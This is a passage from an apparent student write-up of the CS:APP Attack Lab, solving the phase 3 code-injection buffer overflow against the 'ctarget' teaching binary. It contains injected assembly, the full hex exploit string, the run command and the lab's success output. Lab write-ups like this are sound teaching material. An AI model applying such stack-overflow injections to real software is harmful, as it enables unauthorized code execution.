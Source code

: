 It will look something like `buffer (40 bytes) + 8 bytes for the return address of rsp + 8 bytes for touch3`.

`0x28 + 8 + 8 = 40 + 16 = 0x38 56`

We already have the address for `%rsp` from phase 2: `0x5565c750`, and we just need to add 
`0x38` to it. `0x5565c750 + 0x38 = 0x5565c788`

Now we can generate some assembly code to find the address where the cookie is present

```
movq $0x5565c788, %rdi /* %rsp + 0x38 */
retq
```

This gives us in byte representation:

```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 88 c7 65 55 	mov    $0x5565c788,%rdi
   7:	c3                   	ret    
```

Now that we have all the components, all together it will look like:

```
48 c7 c7 88 c7 65 55 c3 /* rsp + 0x38 the address where the cookie is present */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
50 c7 65 55 00 00 00 00 /* return address $rsp */
c6 26 40 00 00 00 00 00 /* touch3 address */
32 61 33 39 65 66 62 64 /* cookie string */
```


To run it we simply use

```
cat ctarget.l3.txt | ./hex2raw | ./ctarget
```

The expected output

```
Cookie: 0x2a39efbd
Type string:Touch3!: You called touch3("2a39efbd")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

---

## rtarget
